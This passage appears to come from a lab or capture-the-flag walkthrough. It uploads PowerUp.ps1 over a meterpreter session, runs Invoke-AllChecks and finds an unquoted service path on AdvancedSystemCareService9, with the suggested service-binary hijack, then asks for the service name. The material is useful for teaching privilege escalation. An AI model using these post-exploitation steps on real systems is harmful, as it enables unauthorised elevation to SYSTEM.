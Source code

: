 1. Execute the Script

```bash
. .\\PowerUp.ps1

Involve-AllChecks
```

- Output
    
    ```bash
    meterpreter > upload /root/TOOLS/PowerUp.ps1
    [*] uploading  : /root/TOOLS/PowerUp.ps1 -> PowerUp.ps1
    [*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/TOOLS/PowerUp.ps1 -> PowerUp.ps1
    [*] uploaded   : /root/TOOLS/PowerUp.ps1 -> PowerUp.ps1
    meterpreter > dir
    Listing: C:\\Users\\Bill\\Desktop
    ==============================
    
    Mode              Size    Type  Last modified              Name
    ----              ----    ----  -------------              ----
    100666/rw-rw-rw-  600580  fil   2025-10-11 06:32:14 +0000  PowerUp.ps1
    100666/rw-rw-rw-  282     fil   2019-09-27 11:07:07 +0000  desktop.ini
    100666/rw-rw-rw-  70      fil   2019-09-27 12:42:38 +0000  user.txt
    
    meterpreter > load powershell
    Loading extension powershell...Success.
    meterpreter > powershell_shell
    PS > . ./PowerUp.ps1
    PS > Invoke-AllChecks
    
    ServiceName    : AdvancedSystemCareService9
    Path           : C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe
    ModifiablePath : @{ModifiablePath=C:\\; IdentityReference=BUILTIN\\Users; Permissions=AppendData/AddSubdirectory}
    StartName      : LocalSystem
    AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
    CanRestart     : True
    Name           : AdvancedSystemCareService9
    Check          : Unquoted Service Paths
    ```
    

## Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an _unquoted service path_ vulnerability?

![image.png](attachment:fc1b66b5-c1bb-4ec2-99f3-f029c6b691d1:image.png)

```bash
ServiceName    : AdvancedSystemCareService9
Path           : C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\\; IdentityReference=BUILTIN\\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

```
